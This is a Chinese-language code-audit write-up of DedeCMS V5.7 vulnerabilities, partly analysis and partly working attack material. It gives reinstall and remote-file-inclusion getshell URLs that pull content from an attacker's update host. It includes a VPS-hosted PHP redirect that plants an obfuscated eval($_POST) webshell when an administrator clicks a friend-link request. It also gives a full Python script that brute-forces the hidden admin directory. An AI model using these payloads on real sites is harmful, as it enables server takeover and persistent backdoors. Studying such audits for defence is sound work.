# dedeCMS代码审计

## 测试环境

DedeCMS-V5.7-GBK-SP1

以及

DedeCMS-V5.7-UTF8-SP2

## dedeCMS重装漏洞

配合Apache解析漏洞，访问`http://y4y4.top/install/index.php.bak`他会按照php解析具体原理可以百度Apache解析漏洞，接下来我们来看,如果文件存在则不允许访问，可是前面有个比较蛋疼的foreach运行我们进行变量覆盖



因此我们传入`/install/index.php.bak?insLockfile=1`



## 远程文件包含漏洞Getshell

首先给出利用代码

前提是`/install/index.php.bak?insLockfile=1`这个能够成功，也就是我们上面的那个漏洞

除此以外我们还需要在远端web目录下写一个`/dedecms/demodata.y4.txt`

接下来访问`/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php`，最后访问`/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=y4.php&updateHost=your-domain`即可成功生成`y4.php`实现getshell

下面进行漏洞分析，当`$step=11`以后进入这个函数



我们看一下`require_once('../data/admin/config_update.php');`的文件内容，就两行

```php
$updateHost = 'http://updatenew.dedecms.com/base-v57/';
$linkHost = 'http://flink.dedecms.com/server_url.php';
```

逻辑很简单，第二步是下载文件到本地，看看payload，`/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php`，最后访问`/install/index.php.bak?`我们故意搞一个不存在的文件所以内容是空，配合变量覆盖我们把`config_update.php`这个文件清空，因此第三步我们便可以任意进行变量覆盖，从而Getshell，分析完毕

## 通过友情链接申请实现Getshell

版本：20170303以下

在测试漏洞前首先需要在我们的VPS下面创建这样一个文件

```php
<?php
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
//拼接 exp
$muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'x'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&content='. $muma .'&filename=y4tacker.lib.php';
$url = $dede_login.$exp;
header("location: ".$url);
exit();
?>
```

接下来我们去申请友情链接



一旦管理员点击



之后则会在`\include\taglib`下面生成我们的shell`y4tacker.lib.php`，下面进行分析，我们看在点击以后url是`http://y4y4.top/tpl.php?action=savetagfile&content=%3C?@eval($_POST[%27y4%27]);?%3E&filename=y4tacker.lib.php`

首先是这个CMS有一个`common.inc.php`里面是和第一个一样有



`$action=='savetagfile'`执行这里



能看到对内容`$content`没做过滤，`stripslashes`函数只是为了去除反斜杠，因而实现了任意文件的写入，当然文件名要满足正则表达式`#^[a-z0-9_-]{1,}\.lib\.php$#i`只要是`.lib.php`后缀即可

## 后台目录爆破漏洞

为了测试这个漏洞我们把后台地址改复杂一点，把exp放在最后，利用原理是php内核的漏洞 -- win内核，与上次不一样这一次配合的是`getimagesize`同样的道理，上一个漏洞里面讲过`common.inc.php`里面存在变量覆盖漏洞，这次也是需要配合他



首先调试，跟踪到`include/uploadsafe.inc.php`



foreach遍历`$_FILES`的键值对,要求`_FILES[$_key][$k]`要有值，并且`_FILES`的键不能出现`cfg_`或`GLOBALS`，之后我们跳过那部分不重要的代码，实现了对`$gyarmy`的赋值



之后设置白名单绕过即可



从而能够实现配合<<检查文件是否存在

接下来我们就看看`$_FILES`如何实现赋值操作,



看到这个foreach循环不难想到能实现变量覆盖但是在它的上面还有个`CheckRequest`函数，我们来审计一下



如果是数组那么进行foreach对数组降维之后再调用CheckRequest，之后若是字符串则要求不为空并且不能包含`cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION`，与我们的$_FILES无关，因此可以进行变量覆盖，分析完毕

### EXP

```python
#!/usr/bin/env python
import requests
import itertools
characters = "abcdefghijklmnopqrstuvwxyz0123456789_!#"
back_dir = ""
flag = 0
url = "http://y4y4.top/tags.php"
data = {
    "_FILES[mochazz][tmp_name]" : "./{p}<</images/adminico.gif",
    "_FILES[mochazz][name]" : 0,
    "_FILES[mochazz][size]" : 0,
    "_FILES[mochazz][type]" : "image/gif"
}

for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        data["_FILES[mochazz][tmp_name]"] = data["_FILES[mochazz][tmp_name]"].format(p=pre)
        print("testing",pre)
        r = requests.post(url,data=data)
        if "Upload filetype not allow !" not in r.text and r.status_code == 200:
            flag = 1
            back_dir = pre
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
            break
        else:
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
print("[+] 前缀为：",back_dir)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        data["_FILES[mochazz][tmp_name]"] = data["_FILES[mochazz][tmp_name]"].format(p=back_dir+ch)
        r = requests.post(url, data=data)
        if "Upload filetype not allow !" not in r.text and r.status_code == 200:
            back_dir += ch
            print("[+] ",back_dir)
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
            break
        else:
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"

print("后台地址为：",back_dir)
```

